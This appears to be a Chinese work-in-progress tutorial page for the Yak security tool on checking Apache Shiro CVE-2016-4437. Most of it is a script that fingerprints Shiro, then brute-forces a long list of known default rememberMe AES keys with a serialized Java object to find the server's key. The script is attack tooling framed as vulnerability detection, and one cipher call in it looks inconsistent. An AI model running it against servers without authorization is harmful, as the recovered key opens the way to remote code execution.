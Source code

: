 ```yaml
---
sidebar_position: 3
---
```


# Shiro CVE-2016-4437（WIP）

阅读本文前，请先确保已经熟悉 [ThinkPHP-5.0.25-RCE](/products/best-practice/thinkphp-case) 中相关内容

本篇中将会涉及到 Shiro 这类比较复杂的漏洞检测，我们将完全通过 `Yak` 内部的模块完成该模块

:::caution Work In Progress

更详细的编码教程与解读我们将在后续补充

:::

## 原代码

```go
log.setLevel("info")
isHttps = cli.Bool("https")

// 构建 shiro 基础请求
baseFreq := fuzz.HTTPRequest(`GET / HTTP/1.1
Host: example.com
Connection: close

`)[0].FuzzHTTPHeader("Host", "cybertunnel.run:8080")

// 发送数据包，取一下指纹结果
result = baseFreq.FuzzCookie("rememberMe", "{{rs(10)}}").ExecFirst(
    httpool.https(isHttps), httpool.redirectTimes(4),
)[0]
die(result.Error)

url, reqRaw, rspRaw = result.Url, result.RequestRaw, result.ResponseRaw

// 检查指纹
headers, body := str.SplitHTTPHeadersAndBodyFromPacket(rspRaw)
if !str.MatchAnyOfSubString(headers, "rememberMe=deleteMe;") {
    die("no shiro detected")
}

log.info("shiro on %v detected", url)
log.info("start to check key")

// 指纹检测工程，接下来准备猜 key
keys = [
    "kPH+bIxk5D2deZiIxcaaaA==",
    "4AvVhmFLUs0KTA3Kprsdag==",
    "Z3VucwAAAAAAAAAAAAAAAA==",
    "fCq+/xW488hMTCD+cmJ3aQ==",
    "0AvVhmFLUs0KTA3Kprsdag==",
    "1AvVhdsgUs0FSA3SDFAdag==",
    "1QWLxg+NYmxraMoxAXu/Iw==",
    "25BsmdYwjnfcWmnhAciDDg==",
    "2AvVhdsgUs0FSA3SDFAdag==",
    "3AvVhmFLUs0KTA3Kprsdag==",
    "3JvYhmBLUs0ETA5Kprsdag==",
    "r0e3c16IdVkouZgk1TKVMg==",
    "5aaC5qKm5oqA5pyvAAAAAA==",
    "5AvVhmFLUs0KTA3Kprsdag==",
    "6AvVhmFLUs0KTA3Kprsdag==",
    "6NfXkC7YVCV5DASIrEm1Rg==",
    "6ZmI6I2j5Y+R5aSn5ZOlAA==",
    "cmVtZW1iZXJNZQAAAAAAAA==",
    "7AvVhmFLUs0KTA3Kprsdag==",
    "8AvVhmFLUs0KTA3Kprsdag==",
    "8BvVhmFLUs0KTA3Kprsdag==",
    "9AvVhmFLUs0KTA3Kprsdag==",
    "OUHYQzxQ/W9e/UjiAGu6rg==",
    "a3dvbmcAAAAAAAAAAAAAAA==",
    "aU1pcmFjbGVpTWlyYWNsZQ==",
    "bWljcm9zAAAAAAAAAAAAAA==",
    "bWluZS1hc3NldC1rZXk6QQ==",
    "bXRvbnMAAAAAAAAAAAAAAA==",
    "ZUdsaGJuSmxibVI2ZHc9PQ==",
    "wGiHplamyXlVB11UXWol8g==",
    "U3ByaW5nQmxhZGUAAAAAAA==",
    "MTIzNDU2Nzg5MGFiY2RlZg==",
    "L7RioUULEFhRyxM7a2R/Yg==",
    "a2VlcE9uR29pbmdBbmRGaQ==",
    "WcfHGU25gNnTxTlmJMeSpw==",
    "OY//C4rhfwNxCQAQCrQQ1Q==",
    "5J7bIJIV0LQSN3c9LPitBQ==",
    "f/SY5TIve5WWzT4aQlABJA==",
    "bya2HkYo57u6fWh5theAWw==",
    "WuB+y2gcHRnY2Lg9+Aqmqg==",
    "kPv59vyqzj00x11LXJZTjJ2UHW48jzHN",
    "3qDVdLawoIr1xFd6ietnwg==",
    "ZWvohmPdUsAWT3=KpPqda",
    "YI1+nBV//m7ELrIyDHm6DQ==",
    "6Zm+6I2j5Y+R5aS+5ZOlAA==",
    "2A2V+RFLUs+eTA3Kpr+dag==",
    "6ZmI6I2j3Y+R1aSn5BOlAA==",
    "SkZpbmFsQmxhZGUAAAAAAA==",
    "2cVtiE83c4lIrELJwKGJUw==",
    "fsHspZw/92PrS3XrPW+vxw==",
    "XTx6CKLo/SdSgub+OPHSrw==",
    "sHdIjUN6tzhl8xZMG3ULCQ==",
    "O4pdf+7e+mZe8NyxMTPJmQ==",
    "HWrBltGvEZc14h9VpMvZWw==",
    "rPNqM6uKFCyaL10AK51UkQ==",
    "Y1JxNSPXVwMkyvES/kJGeQ==",
    "lT2UvDUmQwewm6mMoiw4Ig==",
    "MPdCMZ9urzEA50JDlDYYDg==",
    "xVmmoltfpb8tTceuT5R7Bw==",
    "c+3hFGPjbgzGdrC+MHgoRQ==",
    "ClLk69oNcA3m+s0jIMIkpg==",
    "Bf7MfkNR0axGGptozrebag==",
    "1tC/xrDYs8ey+sa3emtiYw==",
    "ZmFsYWRvLnh5ei5zaGlybw==",
    "cGhyYWNrY3RmREUhfiMkZA==",
    "IduElDUpDDXE677ZkhhKnQ==",
    "yeAAo1E8BOeAYfBlm4NG9Q==",
    "cGljYXMAAAAAAAAAAAAAAA==",
    "2itfW92XazYRi5ltW0M2yA==",
    "XgGkgqGqYrix9lI6vxcrRw==",
    "ertVhmFLUs0KTA3Kprsdag==",
    "5AvVhmFLUS0ATA4Kprsdag==",
    "s0KTA3mFLUprK4AvVhsdag==",
    "hBlzKg78ajaZuTE0VLzDDg==",
    "9FvVhtFLUs0KnA3Kprsdyg==",
    "d2ViUmVtZW1iZXJNZUtleQ==",
    "yNeUgSzL/CfiWw1GALg6Ag==",
    "NGk/3cQ6F5/UNPRh8LpMIg==",
    "4BvVhmFLUs0KTA3Kprsdag==",
    "MzVeSkYyWTI2OFVLZjRzZg==",
    "CrownKey==a12d/dakdad",
    "empodDEyMwAAAAAAAAAAAA==",
    "A7UzJgh1+EWj5oBFi+mSgw==",
    "YTM0NZomIzI2OTsmIzM0NTueYQ==",
    "c2hpcm9fYmF0aXMzMgAAAA==",
    "i45FVt72K2kLgvFrJtoZRw==",
    "U3BAbW5nQmxhZGUAAAAAAA==",
    "ZnJlc2h6Y24xMjM0NTY3OA==",
    "Jt3C93kMR9D5e8QzwfsiMw==",
    "MTIzNDU2NzgxMjM0NTY3OA==",
    "vXP33AonIp9bFwGl7aT7rA==",
    "V2hhdCBUaGUgSGVsbAAAAA==",
    "Z3h6eWd4enklMjElMjElMjE=",
    "Q01TX0JGTFlLRVlfMjAxOQ==",
    "ZAvph3dsQs0FSL3SDFAdag==",
    "Is9zJ3pzNh2cgTHB4ua3+Q==",
    "NsZXjXVklWPZwOfkvk6kUA==",
    "GAevYnznvgNCURavBhCr1w==",
    "66v1O8keKNV3TTcGPK1wzg==",
    "SDKOLKn2J1j/2BHjeZwAoQ==",
]

data = codec.DecodeHex(`aced0005737200326f72672e6170616368652e736869726f2e7375626a6563742e53696d706c655072696e636970616c436f6c6c656374696f6ea87f5825c6a3084a0300014c000f7265616c6d5072696e636970616c7374000f4c6a6176612f7574696c2f4d61703b78707077010078`)[0]

cookies = make([]string)
for _, key = range keys {
    for _, rs = range [
        codec.AESCBCEncrypt,
        codec.AESGCMDecrypt,
    ] {
        keyBytes = codec.DecodeBase64(key)[0]
        res, err := rs(keyBytes, data, nil)
        if err != nil {
            println(err)
            continue
        }
        cookieRaw = append(keyBytes, res...)
        base64dK := codec.EncodeBase64(cookieRaw)
        cookies = append(cookies, base64dK)
    }
}

println("start go fuzz rememberMe")
r, err := baseFreq.FuzzCookie("rememberMe", cookies).Exec(httpool.https(isHttps), httpool.size(3))
die(err)

keyFoundResult = var
for result = range r {
    if result.Error != nil {
        continue
    }
    header, body = str.SplitHTTPHeadersAndBodyFromPacket(result.ResponseRaw)
    if str.MatchAllOfSubString(header, "rememberMe=deleteMe") {
        continue
    }
    keyFoundResult = result
    break
}

// keyFoundResult
println(string(keyFoundResult.RequestRaw))
```